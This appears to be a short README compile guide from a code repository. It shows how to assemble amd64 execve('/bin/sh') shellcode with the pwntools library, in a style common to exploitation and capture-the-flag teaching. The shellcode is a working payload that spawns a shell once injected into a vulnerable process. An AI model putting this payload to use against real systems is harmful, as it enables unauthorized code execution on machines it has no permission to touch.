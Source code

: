 # Compile guide
You may first obtain pwntools here: https://github.com/Gallopsled/pwntools

These assembly code can be directly assembled in pwntools as shown in the example below:
```
from pwn import *

context.arch = "amd64"

shellcode =  """mov rdi, 0x68732f6e69622f
                push rdi
                mov rdi, rsp
                mov rax, 0x3b
                xor rsi, rsi
                xor rdx, rdx
                syscall"""
assembled_shellcode = asm(shellcode)
```